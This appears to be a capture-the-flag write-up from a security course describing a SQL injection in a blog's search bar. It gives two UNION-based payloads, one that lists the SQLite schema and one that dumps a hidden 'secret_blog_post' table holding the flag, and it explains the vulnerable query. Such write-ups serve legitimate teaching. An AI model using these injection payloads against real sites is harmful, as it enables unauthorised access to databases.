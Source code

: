 # Challenge `Wow, it can't be more juicy than this!` writeup

- Vulnerability: SQL Injection
- Where: `http://mustard.stt.rnl.tecnico.ulisboa.pt:22261` search bar
- Impact: Allows an attacker to perform queries and access information in the database

## Steps to reproduce

1. In the search bar, write `' UNION SELECT null, tbl_name, sql FROM sqlite_master WHERE type = 'table';--`
2. This will display the names of all the tables in the database and the SQL text that describes them. There you can find a table named 'secret_blog_post', with columns 'id', 'title' and 'content'
3. In the search bar, write `' UNION SELECT id, title, content FROM secret_blog_post;--`
4. This will display the secret blogpost that is on that table, with title 'Reminder' and the flag in its content

__Note: If you try to search for  `'a`, you will be redirected to an error page where you can see the structure of the query: `SELECT id, title, content FROM blog_post WHERE title LIKE '%<your_search>%' OR content LIKE '%<your_search>%'`. Since the `--` symbol represents the start of a comment in SQLite, the rest of the query will be ignored, so if you search for `' UNION SELECT null, tbl_name, sql FROM sqlite_master WHERE type = 'table';--`, the performed query will be `SELECT id, title, content FROM blog_post WHERE title LIKE '%' UNION SELECT null, tbl_name, sql FROM sqlite_master WHERE type = 'table';--`, displaying all the blogposts in the 'blog_post' table and the names of all the tables in the database and the SQL text that describes them; and if you search for `' UNION SELECT id, title, content FROM secret_blog_post;--`, the performed query will be `SELECT id, title, content FROM blog_post WHERE title LIKE '%' UNION SELECT id, title, content FROM secret_blog_post;--`, displaying all the blogposts in the 'blog_post' and 'secret_blog_post' tables__

[(POC)](pocs/wow_it_cant_be_more_juicy_than_this_poc.py)
